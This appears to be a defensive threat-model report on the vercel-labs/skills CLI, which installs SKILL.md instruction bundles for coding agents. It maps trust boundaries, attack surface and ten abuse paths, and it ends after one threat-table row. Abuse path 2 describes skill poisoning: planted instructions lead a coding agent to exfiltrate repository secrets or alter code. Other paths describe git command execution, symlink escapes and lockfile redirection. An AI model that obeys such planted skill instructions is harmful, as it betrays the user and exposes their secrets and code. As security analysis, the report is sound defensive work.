# Stage 03 Knowledge Base — Architecture & Threat Model

Generated: 2026-05-01  
Target: `/Users/codiologies/Desktop/oss-to-run/skills` (`vercel-labs/skills`)  
Scope: source, build/release workflows, and first-party skill content. Tests and previous Phase 1/2 artifacts were used as evidence but are not runtime entry points.

## Project Classification

### Project Type

| Classification | Applies? | Evidence | Security implication |
|---|---:|---|---|
| **CLI** | Yes | `package.json` exposes `skills` and `add-skill` bins to `./bin/cli.mjs`; `src/cli.ts` dispatches commands. | Primary attack surface is local command invocation, argv, environment, filesystem, and network fetches initiated by the user/automation. |
| **Package-manager / installer** | Yes | `README.md` documents `npx skills add <source>`, `find`, `update`, `experimental_sync`; `src/installer.ts` writes agent skill directories. | Untrusted third-party content is installed into locations consumed by powerful coding agents. Supply-chain integrity dominates risk. |
| **Plugin ecosystem manager** | Yes | Installs `SKILL.md` instruction bundles for Claude Code, Codex, Cursor, OpenCode, etc. (`src/agents.ts`, `skills/find-skills/SKILL.md`). | Installed content changes downstream agent behavior and can become prompt-injection/tool-use instructions. |
| **Protocol/spec client** | Partial | `src/providers/wellknown.ts` implements `/.well-known/agent-skills` and `/.well-known/skills`; README references Agent Skills spec. | Well-known URI discovery and source scoping need Phase 6 spec-gap review. |
| **Library** | Partial/internal | TypeScript modules are importable internally but package public contract is CLI. | Treat internal APIs as Phase 4 modeling targets, not as a stable external SDK. |
| Web app / API / worker / desktop / CI action | No runtime service | No network listener/routes; GitHub Actions are build/publish automation, not a reusable action. | No inbound HTTP route authn/authz; CI still has release-token trust boundaries. |

### Repository shape

- **Language/runtime:** TypeScript ESM, Node.js `>=18`, pnpm, bundled with `obuild` (`build.config.mjs`).
- **Main entrypoint:** `bin/cli.mjs` enables Node compile cache and imports `dist/cli.mjs`; source entrypoint is `src/cli.ts`.
- **Primary runtime modules:** `src/add.ts`, `src/source-parser.ts`, `src/git.ts`, `src/blob.ts`, `src/skills.ts`, `src/frontmatter.ts`, `src/plugin-manifest.ts`, `src/installer.ts`, `src/providers/wellknown.ts`, `src/sync.ts`, `src/install.ts`, `src/remove.ts`, `src/list.ts`, `src/find.ts`, `src/telemetry.ts`, `src/skill-lock.ts`, `src/local-lock.ts`, `src/agents.ts`.
- **Carry-forward from Phase 1/2:** active/simple-git advisory pressure, symlink/path-boundary relocation, well-known install-name terminal-sanitization bypass, blob snapshot trust relocation, and namespace-squatting issue #353 are all directly relevant to this model.

## Architecture Model

### Primary components

| Component | Role | Key files | Trust level |
|---|---|---|---|
| CLI dispatcher | Parses top-level command and invokes handlers; also implements `init` and update flows. | `src/cli.ts`, `bin/cli.mjs` | Trusted local code, but receives untrusted argv/env. |
| Source parser | Classifies `source` strings as GitHub/GitLab/local/well-known/direct git; extracts refs, subpaths, skill filters. | `src/source-parser.ts` | Security-critical normalization boundary. |
| Git clone wrapper | Uses `simple-git`/native `git` to clone arbitrary Git URLs/refs into temp dirs with LFS filters disabled. | `src/git.ts` | Privilege transition from JS to OS subprocess. |
| Blob fast-path downloader | Uses GitHub Trees API + raw.githubusercontent.com + `skills.sh/api/download` snapshots for allowlisted owners. | `src/blob.ts`, `src/add.ts` | Internet content trust + snapshot integrity boundary. |
| Well-known provider | Discovers and fetches skills from arbitrary HTTP(S) hosts at `.well-known` paths. | `src/providers/wellknown.ts` | Untrusted remote JSON/file fetch parser. |
| Skill discovery/parser | Locates `SKILL.md`, parses YAML frontmatter, deduplicates by name, applies internal-skill gating and plugin groupings. | `src/skills.ts`, `src/frontmatter.ts`, `src/plugin-manifest.ts` | Untrusted content parser and selection logic. |
| Installer/remover/listing | Sanitizes names, writes/copies/symlinks/removes project/global skill directories for many agents. | `src/installer.ts`, `src/remove.ts`, `src/list.ts`, `src/agents.ts` | High-value local filesystem writer/deleter. |
| Lock/update system | Tracks installed sources/hashes, rebuilds `skills add` commands, spawns self for updates/restores. | `src/skill-lock.ts`, `src/local-lock.ts`, `src/update-source.ts`, `src/install.ts`, `src/cli.ts` | Integrity state; tampering can redirect future installs. |
| Find/search flow | Searches `skills.sh/api/search`, sanitizes search results, optionally calls `runAdd`. | `src/find.ts` | External recommendation -> install control flow. |
| Telemetry/audit client | Fetches advisory data and sends install/remove/update/find/sync telemetry. | `src/telemetry.ts`, `src/add.ts` | Privacy boundary, outbound-only. |
| CI/release workflows | Typecheck/test/build, agent README sync, npm publish with provenance and releases. | `.github/workflows/*.yml`, `scripts/*` | Supply-chain/release boundary with tokens. |

### Transports and data stores

| Transport/data store | Direction | Data | Security controls in code | Notes |
|---|---|---|---|---|
| CLI argv/stdin prompts | User/automation -> CLI | source, refs, subpaths, skill names, agent choices, flags | Agent name validation; prompts unless `-y`; `sanitizeSubpath()` rejects `..` segments. | Local operator is usually trusted; malicious copy-paste commands are realistic. |
| Environment variables | Shell/CI -> CLI | API URLs, tokens, config dirs, timeouts, telemetry opt-out | Some env parsing constraints (`SKILLS_CLONE_TIMEOUT_MS > 0`, `INSTALL_INTERNAL_SKILLS` strict values). | `process.env` is inherited by `git`; env can redirect APIs (`SKILLS_DOWNLOAD_URL`, `SKILLS_API_URL`). |
| Native git subprocess | CLI -> OS/git -> remote Git server | clone URL, branch/ref, git config/env | `GIT_TERMINAL_PROMPT=0`, LFS disabled, clone timeout. | No first-party URL/ref allowlist; current simple-git advisory state makes this critical. |
| HTTP(S) fetch | CLI -> GitHub/raw/skills.sh/well-known/telemetry | repo tree, raw SKILL.md, snapshots, index JSON, search results, telemetry | Blob fetch timeouts; URL encoding in some endpoints; well-known validates index shape/file paths. | Well-known fetch lacks explicit timeout and accepts `http://`; path-relative well-known discovery is spec-sensitive. |
| Local filesystem | CLI <-> cwd/home/config/temp/node_modules | skills, locks, plugin manifests, agent dirs | `sanitizeName`, lexical `isPathSafe`, `cleanupTempDir` tmp containment, `metadata.json`/`.git` exclusions. | Realpath/symlink semantics remain a major trust-boundary edge. |
| JSON/YAML parsers | Files/HTTP -> JS objects | `SKILL.md` frontmatter, plugin manifests, lockfiles, well-known index | YAML-only frontmatter; required `name`/`description` type checks; JSON parse catches in some callers. | No file-size/depth limits; many errors fail closed but can DoS install. |
| GitHub Actions | GitHub -> CI runner -> npm/GitHub | PR code, main branch, release tokens | `pull_request` not `pull_request_target`; publish has scoped permissions and npm provenance. | CI does not invoke AI agent actions; dependency scripts run during install/build. |

### Trust Boundaries

| ID | Boundary | Crossing data/control | Existing controls | Security-sensitive decisions |
|---|---|---|---|---|
| TB-01 | **User shell/CI -> CLI process** | argv, stdin choices, env vars, cwd | Option parsing; non-TTY hints; strict agent list; some env validation. | `parseSource()`, `parseAddOptions()`, `parseRemoveOptions()`, `parseSyncOptions()`, update scope resolution. |
| TB-02 | **Public internet git hosts -> native git/local tempdir** | Git URL/ref/subpath and repository tree | Shallow clone, LFS filters disabled, temp cleanup. | `cloneRepo(url, ref)` passes user URL/ref to simple-git/native git. |
| TB-03 | **Public HTTP APIs -> in-memory skill data** | GitHub tree, raw SKILL.md, skills.sh snapshots, search API, arbitrary well-known indexes/files | Blob fetch timeout, well-known index schema/file path checks, metadata terminal sanitization. | Blob trust vs clone fallback; well-known root/path resolution; source identifier/telemetry gating. |
| TB-04 | **Untrusted skill files -> parser/discovery decisions** | `SKILL.md`, YAML frontmatter, plugin manifests | YAML-only parser; required string fields; hidden `metadata.internal` gate; name dedupe. | Deduplication by frontmatter `name`, plugin path containment, internal skill inclusion. |
| TB-05 | **Untrusted skill names/file paths -> local filesystem writes** | install names, snapshot/well-known file paths, source directory contents | `sanitizeName`, `isPathSafe`, traversal skip for snapshot/well-known files. | Canonical/global/project target selection, copy vs symlink fallback, source symlink dereference. |
| TB-06 | **Installed skill directories -> downstream AI agents** | Agent instructions and auxiliary files | User warning: “Review skills before use”; placement only. | The CLI has no runtime sandbox over how agents interpret/use skills. |
| TB-07 | **Lockfiles -> update orchestration** | source, ref, skillPath, hashes | Version checks, sorted local lock, hash comparisons for some flows. | `buildUpdateInstallSource()`/`buildLocalUpdateSource()` and self-`spawnSync` reinstall. |
| TB-08 | **CLI -> telemetry/audit service** | source, selected skills, agents, skill paths, find queries | Opt-out env; GitHub privacy check skips known private repos when `isPrivate === false` not proven. | Non-GitHub/well-known privacy classification; CI auto-disable mismatch to README claim. |
| TB-09 | **Repository -> CI/release/npm consumers** | PR code, dependencies, generated bundle, npm token, GitHub token | `pull_request` CI has no secrets; publish only on main/tags/workflow_dispatch; npm provenance. | Dependency install/build scripts; version bump shell; release changelog generation. |

## DFD/CFD Slices

### DFD slices

#### DFD-01 — Remote git source to agent skill installation



- **Attacker-controlled sources:** Git URL/owner-repo/ref/subpath, remote git repository contents, `SKILL.md` metadata, symlinks/files inside the repo.
- **High-value sinks:** native git subprocess (`src/git.ts`), YAML parse (`src/frontmatter.ts`), recursive copy/symlink/write (`src/installer.ts`), downstream agent instruction loading.
- **Controls:** `sanitizeSubpath()`, lexical `isSubpathSafe()`, metadata sanitization, `sanitizeName()`, `isPathSafe()`, prompts/warnings.
- **Residual model risk:** simple-git dependency RCE class and symlink-realpath containment need custom Phase 4/5 modeling.

#### DFD-02 — GitHub blob fast path and `skills.sh` snapshot trust



- **Attacker-controlled sources:** GitHub tree/raw content if repo compromised; `SKILLS_DOWNLOAD_URL` env if local env controlled; `skills.sh` snapshot response.
- **High-value sinks:** file writes from `download.files[].path`, lockfile hash entries, installed agent instructions.
- **Controls:** owner allowlist (`vercel`, `vercel-labs`, `heygen-com`), GitHub tree path discovery, `isPathSafe()` skip on write, fetch timeouts.
- **Residual model risk:** snapshot response is not end-to-end verified against the GitHub tree/ref before installation.

#### DFD-03 — Arbitrary well-known URL to local install



- **Attacker-controlled sources:** arbitrary HTTP(S) host, `index.json` `name`/`description`/`files`, all fetched file content.
- **High-value sinks:** file writes, terminal output, telemetry lock/source identifiers, downstream agent behavior.
- **Controls:** index shape validation, relative file path checks, install path sanitization, metadata sanitization after frontmatter parse.
- **Residual model risk:** accepts HTTP, no explicit fetch timeout in provider, path-relative `.well-known` behavior, and Stage 2 install-name sanitization bypass.

#### DFD-04 — Local path / `node_modules` sync to agent directories



- **Attacker-controlled sources:** malicious npm package contents, untrusted local path contents, symlinks, plugin manifests.
- **High-value sinks:** recursive copy/dereference, symlink creation, local lock hash.
- **Controls:** directory skip list, `metadata.json`/`.git` exclusions, name/path sanitization, prompt confirmation.
- **Residual model risk:** source symlinks are dereferenced; discovery follows symlinked dirs in some paths.

#### DFD-05 — Lock/update restore to self-spawned install

- **Attacker-controlled sources:** tampered `skills-lock.json` / `.skill-lock.json`, source/ref/skillPath fields, possibly environment `XDG_STATE_HOME`.
- **High-value sinks:** self-spawned command execution boundary, remote re-fetch/install, lock rewrite.
- **Controls:** schema version checks, hash comparison for update checks, source grouping.
- **Residual model risk:** tampered lock entries are treated as installer instructions; Windows `shell: true` self-spawn should be reviewed for quoting/argument injection.

### CFD slices

#### CFD-01 — Source classification, policy, and routing



- **Security-critical branches:** local path detection before URL parsing; GitHub/GitLab tree subpath extraction; fallback to direct git URL; OpenClaw block; owner allowlist for blob path; well-known arbitrary URL fallback.

#### CFD-02 — Skill selection, deduplication, and internal-skill gating



- **Security-critical branches:** `metadata.internal` is hidden unless env or explicit skill selection; duplicate names are dropped by first-seen name; `--skill '*'`/`--all` bypass selection prompts.

#### CFD-03 — Filesystem privilege transition



- **Security-critical branches:** project vs global base path; universal agents share `.agents/skills`; symlink creation resolves parent symlinks but copy source can dereference untrusted symlinks.

#### CFD-04 — Telemetry privacy gating



- **Security-critical branches:** GitHub privacy check skips if private/unknown; non-GitHub and well-known flows have weaker privacy semantics; README claims CI telemetry disabled, but `track()` only adds `ci=1` unless opt-out env is set.

#### CFD-05 — Release/publish control path



- **Security-critical branches:** publish job has `contents: write`, `id-token: write`, `NPM_TOKEN`; no AI agent action is present; dependency/build stack is a supply-chain boundary.

## Attack Surface

### Attacker-controlled and operator-controlled inputs

| Surface | Reached by | Attacker control realism | High-risk sinks | Evidence |
|---|---|---|---|---|
| `skills add <source>` | CLI argv | High if attacker convinces victim/CI to run a command or controls lock/source. | `simple-git.clone`, HTTP fetches, file writes. | `src/add.ts`, `src/source-parser.ts`, `src/git.ts`, `src/installer.ts` |
| Git URL/ref/subpath fragments | Source syntax (`owner/repo#ref@skill`, tree URLs, direct git URLs) | High for malicious source strings. | native git argv/options; path traversal/symlink search path. | `src/source-parser.ts`, `src/git.ts`, `src/skills.ts` |
| Remote `SKILL.md` frontmatter/body | Remote git repo, raw GitHub, well-known host, blob snapshot | High for malicious skill authors. | YAML parser, dedupe/install name, terminal output, agent instructions. | `src/frontmatter.ts`, `src/skills.ts`, `src/blob.ts`, `src/providers/wellknown.ts` |
| Well-known `index.json` | Arbitrary URL source | High when installing from third-party docs/domain. | fetch file URLs, install name, file path writes. | `src/providers/wellknown.ts`, `src/installer.ts` |
| Snapshot file path/content | `skills.sh/api/download` or `SKILLS_DOWNLOAD_URL` | Medium; external service compromise or local env override. | local file writes, installed instructions. | `src/blob.ts`, `src/installer.ts` |
| Local path contents | CLI user passes local dir | Medium; local supply chain or compromised repo. | recursive copy/symlink dereference. | `src/skills.ts`, `src/installer.ts` |
| `node_modules` package contents | `experimental_sync` | Medium-high in projects with untrusted deps. | project skill install, local lock. | `src/sync.ts`, `src/local-lock.ts` |
| Lockfiles | `skills-lock.json`, `.skill-lock.json` | Medium; project repo contributors or local malware. | update/reinstall source construction; self-spawn. | `src/local-lock.ts`, `src/skill-lock.ts`, `src/install.ts`, `src/update-source.ts` |
| Environment variables | Shell/CI/env files | Medium; local/CI config, malicious wrappers. | API redirection, token headers, path bases, git env inheritance, telemetry opt-out. | `src/blob.ts`, `src/find.ts`, `src/agents.ts`, `src/git.ts`, `src/telemetry.ts` |
| Search API results | `skills find` | Medium; external service influences recommendations and install source. | terminal output, follow-on install. | `src/find.ts` |
| CI workflow inputs/events | PRs, pushes, workflow dispatch | Medium for PR code in CI; high for main branch compromise. | build scripts, npm publish, GitHub release. | `.github/workflows/ci.yml`, `.github/workflows/publish.yml`, `.github/workflows/agents.yml` |

### Public routes / URLs visible in source

This repository does **not** expose inbound HTTP routes. It is an outbound HTTP client. Visible external endpoints are:

| URL / pattern | Purpose | Source file |
|---|---|---|
| `https://api.github.com/repos/{owner}/{repo}` | privacy check | `src/source-parser.ts` |
| `https://api.github.com/repos/{ownerRepo}/git/trees/{ref}?recursive=1` | GitHub tree discovery/hash | `src/blob.ts`, `src/skill-lock.ts` |
| `https://raw.githubusercontent.com/{ownerRepo}/{branch}/{skillMdPath}` | fetch remote `SKILL.md` frontmatter | `src/blob.ts` |
| `https://skills.sh/api/download/{owner}/{repo}/{slug}` | blob snapshot download | `src/blob.ts` |
| `https://skills.sh/api/search?q=...&limit=10` | skill search | `src/find.ts` |
| `{base}/.well-known/agent-skills/index.json` and `{base}/.well-known/skills/index.json` | well-known discovery | `src/providers/wellknown.ts` |
| `https://add-skill.vercel.sh/t` | telemetry | `src/telemetry.ts` |
| `https://add-skill.vercel.sh/audit` | partner audit advisory display | `src/telemetry.ts`, `src/add.ts` |

### High-value sinks requiring custom modeling

| Sink | Sink kind | Why high-value | Key files |
|---|---|---|---|
| `git.clone(url, tempDir, cloneOptions)` | command-execution | Native git command with attacker-controlled URL/ref; active dependency advisories. | `src/git.ts` |
| `spawnSync(process.execPath, [..., installUrl, ...], { shell: win32 })` | command-execution | Self-spawn update path with lock-derived source. | `src/cli.ts` |
| `execSync('gh auth token')` | command-execution / credential access | Executes PATH-resolved `gh`; returns token for GitHub API headers. | `src/skill-lock.ts` |
| `writeFile`, `cp`, `symlink`, `rm` | file-access | Writes/removes agent dirs under cwd/home; symlink/copy boundary. | `src/installer.ts`, `src/remove.ts`, `src/local-lock.ts`, `src/skill-lock.ts` |
| `parseYaml(frontmatter)` | deserialization/parser | Untrusted YAML parser; prior parser advisories and DoS risk. | `src/frontmatter.ts` |
| `fetch()` to arbitrary URL | http-request | Well-known hosts, telemetry/audit, GitHub raw/API, skills.sh snapshots. | `src/providers/wellknown.ts`, `src/blob.ts`, `src/find.ts`, `src/telemetry.ts` |
| Terminal output of names/descriptions | terminal/log injection | CLI output can be interpreted by terminal/log viewers. | `src/add.ts`, `src/find.ts`, `src/list.ts`, `src/remove.ts` |
| Agent skill directories | code/prompt-execution context | Installed files are operational directives for agents with developer permissions. | `src/installer.ts`, `src/agents.ts` |

## Threat Model

### Scope and assumptions

- **Assumption A1:** Typical user runs this CLI on a developer workstation or in CI with normal user permissions, possibly with git credentials/tokens in the environment.
- **Assumption A2:** Third-party skill authors and remote hosts are untrusted unless explicitly official and verified by the user.
- **Assumption A3:** Installed skills are later loaded by coding agents that may read/write project files and call tools; the CLI itself does not sandbox agents.
- **Assumption A4:** CI publish workflow is protected by GitHub branch protections, but PRs can run CI checks without release secrets.
- **Open context questions:** Do maintainers expect users to install from arbitrary `http://` well-known URLs? Is `skills.sh` operated as a trusted transparency/integrity service? Are official skill repos signed or reviewed before publication?

### Assets and security objectives

| Asset | Why it matters | Objective |
|---|---|---|
| Developer workstation filesystem and home config | CLI writes under cwd and home/global agent paths; agents later act with user permissions. | Integrity, confidentiality, availability |
| Git/SSH/GitHub/npm tokens and environment secrets | Native git, `gh auth token`, CI, and agents may access credentials. | Confidentiality, integrity |
| Installed skill directories | They influence AI agents and can persist across projects globally. | Integrity, provenance, auditability |
| Project repository files | Project-scope installs and agents can affect committed code/config. | Integrity, confidentiality |
| Published npm package and build artifacts | Consumers run `npx skills`; release compromise scales broadly. | Integrity, provenance |
| Lockfiles (`skills-lock.json`, `.skill-lock.json`) | Drive future updates/restores and source trust. | Integrity |
| User privacy/telemetry data | Sources, skills, agents, search queries can reveal private work. | Confidentiality |
| Availability of CLI operations | Parser/git/fetch DoS can hang or crash installs/CI. | Availability |

### Attacker model

**Capabilities**

- Publish or control a malicious GitHub/GitLab/git repository containing crafted `SKILL.md`, symlinks, plugin manifests, and many/deep files.
- Host a malicious well-known endpoint and induce a user or CI to run `skills add https://attacker.example/...`.
- Poison a project dependency installed into `node_modules` and rely on `experimental_sync`.
- Tamper with project-level lockfiles via a malicious PR/commit or local compromise.
- Influence search/discovery output if an external API/service is compromised.
- Submit PRs that run CI tests/builds, but without release secrets under current workflows.

**Non-capabilities by default**

- No unauthenticated inbound server request reaches this code; there are no public HTTP routes.
- An external attacker cannot directly choose CLI arguments unless they convince a user/automation to run them or commit them to lock/config/scripts.
- Without main-branch/tag/workflow-dispatch control, an attacker cannot access npm publish token through current workflows.
- The CLI cannot enforce downstream agent sandboxing after files are installed; downstream agent behavior must be threat-modeled separately.

### Top abuse paths

1. **Remote source -> simple-git RCE:** attacker supplies crafted git URL/ref/protocol -> victim runs `skills add` -> `cloneRepo()` calls vulnerable simple-git/native git -> attacker achieves command execution on developer machine.
2. **Skill poisoning -> agent compromise:** attacker publishes benign-looking skill -> CLI installs it globally -> downstream coding agent loads malicious instructions -> agent exfiltrates repo secrets or modifies code in later sessions.
3. **Symlink boundary crossing:** attacker repo contains symlinked skill path or symlinked files -> lexical containment passes -> installer dereferences/follows symlink -> files outside the intended repo/skill boundary influence installed content or leak local files into agent dirs.
4. **Well-known install-name/control injection:** attacker hosts well-known index with malformed/escaped `name` or excessive file list -> CLI prints or installs under sanitized directory but preserves misleading display/source state -> user approves/locks malicious skill.
5. **Blob snapshot substitution:** official allowlisted GitHub repo is installed via blob fast path -> `skills.sh` snapshot is stale/compromised/mismatched -> CLI installs content not represented by GitHub tree/ref.
6. **Namespace squatting:** attacker-controlled `SKILL.md` claims a trusted frontmatter `name` -> `discoverSkills()` first-seen dedupe hides the legitimate skill -> user installs the attacker-controlled implementation.
7. **Lockfile update redirection:** attacker modifies `skills-lock.json` source/ref/skillPath -> `experimental_install` or `update` builds a new install source and self-spawns `skills add` -> malicious source is installed without the original selection review.
8. **Node_modules sync poisoning:** malicious npm dependency includes `SKILL.md` -> `experimental_sync` discovers and installs it into `.agents/skills` -> agents load malicious instructions in the project.
9. **Telemetry privacy leak:** non-GitHub/private source is installed -> privacy detection cannot prove private -> telemetry sends source/skills/agent metadata to external service despite sensitive context.
10. **CI release compromise:** attacker lands malicious dependency/build change on main -> publish workflow builds and publishes to npm with provenance -> consumers execute compromised CLI via `npx`.

### Threat model table

| Threat ID | Threat source | Prerequisites | Threat action | Impact | Impacted assets | Existing controls (evidence) | Gaps | Recommended mitigations | Detection ideas | Likelihood | Impact severity | Priority |
|---|---|---|---|---|---|---|---|---|---|---|---|---|
| TM-001 | Malicious git source | Victim/CI runs `skills add` with attacker-controlled git/GitHub/GitLab source or lock-derived source. | Exploit git/simple-git option/protocol parsing to execute OS commands. | Developer machine or CI command execution. | Workstation, env tokens, project files. | Shallow clone, timeout, `GIT_TERMINAL_PROMPT=0`, LFS disabled (`src/git.ts`). | Current lock uses vulnerable simple-git per Phase 1; no first-party URL/ref/protocol allowlist. | Upgrade simple-git; block dangerous protocols/options before library call; validate refs against strict branch/tag charset; run git with scrubbed env and explicit `--` boundaries where possible. | CodeQL taint argv/ref -> `git.clone`; dependency policy; runtime denylist telemetry for rejected sources. | High | High | **critical** |
